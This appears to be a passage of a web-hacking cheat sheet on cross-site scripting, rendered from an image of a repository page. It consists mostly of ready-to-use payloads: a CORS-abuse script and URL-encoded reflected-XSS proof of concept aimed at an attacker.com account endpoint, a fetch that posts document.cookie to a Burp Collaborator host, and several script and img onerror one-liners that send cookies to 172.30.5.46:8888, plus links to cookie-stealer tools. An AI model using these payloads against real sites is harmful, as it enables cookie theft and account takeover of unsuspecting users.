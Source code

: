         function cors() {  
        var xhttp = new XMLHttpRequest();  
        xhttp.onreadystatechange = function() {    
            if (this.status == 200) {    
            alert(this.responseText);     
            document.getElementById("demo").innerHTML = this.responseText;    
            }  
        };  
        xhttp.open("GET", "<https://www.attacker.com/api/account>", true);  
        xhttp.withCredentials = true;  
        xhttp.send();
        }
        cors();
        4. So here is the final POC
        <https://test.attacker.com/patter.jsp?facct=>"><script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","<https://www.attacker.com/api/account>",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
        ```
        
    - Self XSS to ATO
        
        ```python
        ## convert self xss to reflected one
        copy response in a file.html -> it will work
        ```
        
    - XSS to ATO
        
        ```jsx
        <script>
        fetch('<https://BURP-COLLABORATOR-SUBDOMAIN>', {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
        });
        </script>
        ```
        
        ```jsx
        ## Cookie stealing through xss
        <https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py>
        <https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md>
        <script>var i=newImage;i.src="http://172.30.5.46:8888/?"+document.cookie;</script>
        <img src=x onerror=this.src='<http://172.30.5.46:8888/?'+document.cookie;>>
        <img src=x onerror="this.src='<http://172.30.5.46:8888/?'+document.cookie>; this.removeAttribute('onerror');">
        ```
        
    - XSS to RCE
        
        [https://swarm.ptsecurity.com/researching-open-source-apps-for-xss-to-rce-flaws/](https://swarm.ptsecurity.com/researching-open-source-apps-for-xss-to-rce-flaws/)
        